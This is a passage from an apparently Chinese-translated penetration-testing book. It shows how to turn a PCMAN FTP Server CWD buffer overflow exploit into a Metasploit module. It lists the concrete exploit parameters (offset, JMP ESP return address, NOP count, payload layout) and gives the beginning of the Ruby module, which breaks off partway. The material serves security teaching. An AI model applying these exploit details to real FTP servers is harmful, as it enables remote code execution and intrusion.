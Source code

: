 一旦我们执行了利用，以下屏幕就会出现：

![](img/00163.jpeg)

我们可以看到计算器应用程序弹出，说明利用正在正确工作。

# 收集必要的信息

让我们找出我们需要从前面的利用中掌握的重要值，以通过以下表格在 Metasploit 中生成等效模块：

| 1 | 序列号 | 变量 | 值 |
| --- | --- | --- | --- |
| 1 | 偏移值 | `2008` |
| 2 | 目标返回/跳转地址/使用`JMP ESP`搜索找到的可执行模块的值 | `0x71AB9372` |
| 3 | 目标端口 | `21` |
| 4 | 前导 NOP 字节的数量，以删除 shellcode 的不规则性 | `10` |
| 5 | 逻辑 | `CWD`命令，后跟 2008 字节的 junk 数据，后跟任意返回地址、NOP 和 shellcode |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何辅助 FTP 进程以及在 Metasploit 中创建利用模块有多么容易。

# 生成一个 Metasploit 模块

构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。但是，`Mona.py`脚本也可以即时生成特定于 Metasploit 的模块。我们将在本书的最后部分看看如何使用`Mona.py`脚本生成快速利用。

现在让我们看看在 Metasploit 中利用的等效代码：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::Ftp
def initialize(info = {})
super(update_info(info,
'Name' => 'PCMAN FTP Server Post-Exploitation CWD Command',
'Description' => %q{
This module exploits a buffer overflow vulnerability in PCMAN FTP
},
  'Author' =>
    [
      'Nipun Jaswal'

    ],
  'DefaultOptions' =>
    {
```